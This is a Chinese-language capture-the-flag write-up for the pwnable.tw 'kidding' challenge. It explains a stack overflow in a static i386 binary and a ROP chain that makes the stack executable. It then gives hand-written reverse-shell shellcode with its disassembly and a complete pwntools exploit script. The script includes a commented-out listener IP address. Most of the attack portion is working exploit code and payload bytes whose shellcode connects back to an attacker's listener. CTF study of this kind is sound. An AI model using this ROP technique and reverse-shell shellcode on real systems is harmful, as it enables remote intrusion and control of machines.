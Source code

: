 # pwnable.tw-kidding

### 0x1 分析

安全选项：

```shell
[*] './kidding'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

除了NX都没开，猜测是栈溢出。

而且是个静态链接程序。

```shell
➜  Kidding ldd kidding
	not a dynamic executable
```

看一下程序逻辑：

```c
/*main()*/
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp-Ch] [ebp-Ch]

  read(0, &v4, 100);
  close(0);
  close(1);
  close(2);
  return 0;
}
```

可以栈溢出`100`个字节，但是关掉了`stdin`、`stdout`、`stderr`。

这种题目第一次做，但是学到了反弹shell的思路。

由于是静态链接，所以直接使用libc中的gadget不可能了，就得自己写shellcode。

但是开了NX保护，所以看到[网上博客](https://radareorg.github.io/blog/posts/defeating-baby_rop-with-radare2/)的思路是先关闭NX保护。

这里需要`_dl_make_stack_executable`函数，看名字就能知道这是一个让`stack`上的代码可以执行的函数，里面调用了`mprotect`函数，而作用的内存页就是`__libc_stack_end`，就是栈。

所以我们需要做些准备工作，保证可以让栈的代码可执行：

1. `ds:__stack_prot`设置为`7`，另外两个参数不用动。
2. 要在`eax`里放入`__libc_stack_end`的地址，因为下面有个代码`cmp     ecx, ds:__libc_stack_end`。

```assembly
.text:0809A080 _dl_make_stack_executable proc near     ; CODE XREF: _dl_map_object_from_fd_constprop_7+D0A↑p
.text:0809A080                                         ; DATA XREF: .data:_dl_make_stack_executable_hook↓o
.text:0809A080 ; __unwind {
.text:0809A080                 push    esi
.text:0809A081                 push    ebx
.text:0809A082                 sub     esp, 4
.text:0809A085                 mov     esi, _dl_pagesize
.text:0809A08B                 mov     ecx, [eax]
.text:0809A08D                 mov     edx, esi
.text:0809A08F                 neg     edx
.text:0809A091                 and     edx, ecx
.text:0809A093                 cmp     ecx, ds:__libc_stack_end
.text:0809A099                 jnz     short loc_809A0D0
.text:0809A09B                 sub     esp, 4
.text:0809A09E                 push    ds:__stack_prot
.text:0809A0A4                 mov     ebx, eax
.text:0809A0A6                 push    esi
.text:0809A0A7                 push    edx
.text:0809A0A8                 call    mprotect
[···]
```

然后就是反弹shell了。

1. 由于`fd`中`0、1、2`皆已被`close`，拿到的`socket` `fd`即已经是`0`，因此只需要进行一次`dup2`。
2. 由于`ebp`可控（`ebp`的值会等于`input`中的第`8~11 byte`），由此可以`push ebp`取代一次`push IP`，省下`4 bytes`。
3. `push` `port`時使用`ax`中已有的数值（`0x66`），`port`（big endian）将被固定为`0x6600`。

```assembly
   0:   6a 01                   push   0x1
   2:   5b                      pop    ebx
   3:   99                      cdq
   4:   b0 66                   mov    al,0x66
   6:   52                      push   edx		# 0
   7:   53                      push   ebx 		# 1
   8:   6a 02                   push   0x2
   a:   89 e1                   mov    ecx,esp	
   c:   cd 80                   int    0x80
   
   e:   5e                      pop    esi		# 2	
   f:   59                      pop    ecx		# 1
  10:   93                      xchg   ebx,eax# ebx 0
  11:   b0 3f                   mov    al,0x3f
  13:   cd 80                   int    0x80
  
  15:   b0 66                   mov    al,0x66
  17:   55                      push   ebp
  18:   66 50                   push   ax
  1a:   66 56                   push   si
  1c:   89 e1                   mov    ecx,esp
  1e:   0e                      push   cs
  1f:   51                      push   ecx
  20:   53                      push   ebx
  21:   89 e1                   mov    ecx,esp
  23:   b3 03                   mov    bl,0x3
  25:   cd 80                   int    0x80
  
  27:   b0 0b                   mov    al,0xb
  29:   59                      pop    ecx
  2a:   68 2f 73 68 00          push   0x68732f
  2f:   68 2f 62 69 6e          push   0x6e69622f
  34:   89 e3                   mov    ebx,esp
  36:   cd 80                   int    0x80
```

学到了。

### 0x12 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
 
context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'i386' , os = 'linux', log_level='debug')

p = process('./kidding')
elf = ELF('./kidding')

# payload
reverse_shellcode = (
    "\x6a\x01\x5b\x99\xb0\x66\x52\x53\x6a"
    "\x02\x89\xe1\xcd\x80\x5e\x59\x93\xb0\x3f"
    "\xcd\x80\xb0\x66\x55\x66\x50\x66\x56"
    "\x89\xe1\x0e\x51\x53"
    "\x89\xe1\xb3\x03\xcd\x80\xb0\x0b\x59\x68\x2f\x73\x68"
    "\x00\x68\x2f\x62\x69\x6e\x89\xe3"
    "\xcd\x80"
)
rop = ROP('./kidding')
# __stack_prot = 7
rop.raw(rop.find_gadget(['pop ecx', 'ret']).address)
rop.raw(rop.resolve('__stack_prot'))
rop.raw(rop.find_gadget(['pop dword ptr [ecx]', 'ret']).address)
rop.raw(7)

# call _dl_make_stack_executable
rop.raw(rop.find_gadget(['pop eax', 'ret']).address)
rop.raw(rop.resolve('__libc_stack_end'))
rop.raw(rop.resolve('_dl_make_stack_executable'))

# Run our shellcode
rop.raw(0x080c99b0) # call esp

# listen_ip        = '47.93.233.109'
listen_ip        = '0.0.0.0'
listen_port      = 0x6600
payload = 'A' * 8 + binary_ip(listen_ip) + str(rop) + reverse_shellcode


# p = remote('chall.pwnable.tw', 10303)
listener = listen(listen_port)
p.send(payload)
# success(disasm(reverse_shellcode))
listener.interactive()
```

